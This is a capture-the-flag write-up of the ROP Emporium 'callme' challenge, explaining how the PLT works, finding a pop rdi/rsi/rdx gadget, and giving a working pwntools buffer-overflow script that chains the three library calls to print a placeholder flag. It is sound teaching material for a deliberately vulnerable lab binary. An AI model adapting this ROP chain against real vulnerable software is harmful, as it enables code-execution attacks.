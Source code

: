 # callme

_call me maybe?_

This is where it gets interesting. Remember when I said to research the PLT last writeup? Yeah, this is why.

If you haven't already, read up on how it works. You can do so [here](https://ropemporium.com/guide.html#Appendix%20A), but there are tons of resources out there.

In this challenge, the author makes life easy for us and removes the need for any reversing by telling us the objective:

> You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag. For the x86_64 binary double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`

This means we need to control `rdi`, `rsi`, and `rdx`, as parameters to functions are passed in these registers.

Looking at the binary in Cutter, we see the same three functions:

```text
sym.main
sym.pwnme
sym.usefulFunction
```

We also see this:

```text
sym.imp.callme_one
sym.imp.callme_two
sym.imp.callme_three
```

Now, the functions we have to call are outside of the binary. They are located in `libcallme.so`, which was provided with the challenge. This means they are dynamically resolved at runtime as they are called.

Going back to the binary, we'll take a look at `usefulFunction`'s decompilation:

```c
void usefulFunction(void)
{
    callme_three(4, 5, 6);
    callme_two(4, 5, 6);
    callme_one(4, 5, 6);
    exit(1);
    return;
}
```

Well, that's not very useful. Looking at the disassembly only strengthens this:

```assembly
; addresses removed for brevity
; usefulFunction ();
push    rbp
mov     rbp, rsp
mov     edx, 6
mov     esi, 5
mov     edi, 4
call    callme_three ; sym.imp.callme_three
mov     edx, 6
mov     esi, 5
mov     edi, 4
call    callme_two ; sym.imp.callme_two
mov     edx, 6
mov     esi, 5
mov     edi, 4
call    callme_one ; sym.imp.callme_one
mov     edi, 1 ; int status
call    exit ; sym.imp.exit ; void exit(int status)
```

Not only are the functions called in the wrong order, they are also called with the wrong arguments. In fact, we can't change these arguments, because we don't control `edx`, `esi`, or `edi`. We could find a gadget somewhere and `ret` directly to the calls after popping the required values into our registers, but that would be a long and complicated ROP chain.

As it turns out, this function is only here to make sure that the functions get imported by the linker at compile time and their entries get placed in the PLT.

So, instead of jumping to this, we could just jump to their entries in the PLT.

Now, all we need to do is find some gadgets that can pop `rdi`, `rsi`, and `rdx`. The order doesn't matter, as we can craft the buffer overflow to suit the gadget. We can use `ROPgadget` to find such gadgets like so:

```text
$ ROPgadget --binary ./callme | grep rdi
0x0000000000400a3d : add byte ptr [rax], al ; add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x0000000000400a3f : add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x0000000000400a3c : add byte ptr fs:[rax], al ; add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x000000000040093b : lcall [rdi + 0x5e] ; pop rdx ; ret
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
0x00000000004009a3 : pop rdi ; ret
```

Look at that second last result.

```text
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
```

Great. Guess we only need one gadget then.

With this, we can construct our exploit:

```python
from pwn import *

context.arch = "amd64"

# doing this saves us from hardcoding a lot of stuff
elf = context.binary = ELF("./callme")

# case in point:
# we can just lookup the addresses of each function via the symbol table.
# no need to trawl through the PLT looking for them.
CALLMES = [
    p64(elf.symbols.callme_one),
    p64(elf.symbols.callme_two),
    p64(elf.symbols.callme_three),
]

# set the params we need to call the functions with
RDI = p64(0xdeadbeefdeadbeef)
RSI = p64(0xcafebabecafebabe)
RDX = p64(0xd00df00dd00df00d)

# still need to hardcode this though
# pop rdi; pop rsi; pop rdx; ret
GADGET = p64(0x40093c)

# overflow the buffer
payload = b'A' * 40

# since we add the exact same things in the exact same order for each call,
# just use a loop
for i in range(3):
    # first ret to the gadget
    payload += GADGET
    # the gadget will pop rdi
    payload += RDI
    # then pop rsi
    payload += RSI
    # then pop rdx
    payload += RDX
    # then ret to the function
    payload += CALLMES[i]

conn = process("./callme")

conn.recvuntil(b'> ')
conn.send(payload)
recved = conn.recvall()

# pretty print because we can
print(recved.decode("ascii"))
```

Great. We can run this now.

```text
$ python exploit.py

[*] '/home/sammy/Projects/binexp/ropemporium/3-callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process './callme': pid 186777
[+] Receiving all data: Done (104B)
[*] Process './callme' stopped with exit code 0 (pid 186777)
Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

Boom.
